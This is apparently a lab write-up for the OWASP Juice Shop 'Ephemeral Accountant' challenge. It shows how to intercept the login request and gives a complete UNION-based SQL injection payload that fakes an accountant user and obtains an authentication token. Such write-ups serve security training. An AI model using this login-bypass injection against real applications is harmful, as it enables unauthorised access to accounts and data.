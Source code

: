 # Ephemeral Accountant

This challenge involves using SQL injection to simulate the login of a non-existent but temporarily created user "acc0unt4nt@juice-sh.op" without actually adding the account to the database permanently.

Using the information of user from the database, we know the `user` has many variable etc. We use it to inject the login page. Open your intercept and write anything on email/password section. 

As we get the typical HTTP POST request

```bash
POST /rest/user/login HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/json

{
  "email": "user@example.com",
  "password": "password123"
}
```
Change email using UNION and the variable to mimic the user a legitimate user. 

```bash
{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "test1234"
}
```

![alt text](<img/Screenshot (22).png>)

As you can see we got authentication token means we already succed to solved the challenge.

![alt text](<img/Screenshot (23).png>)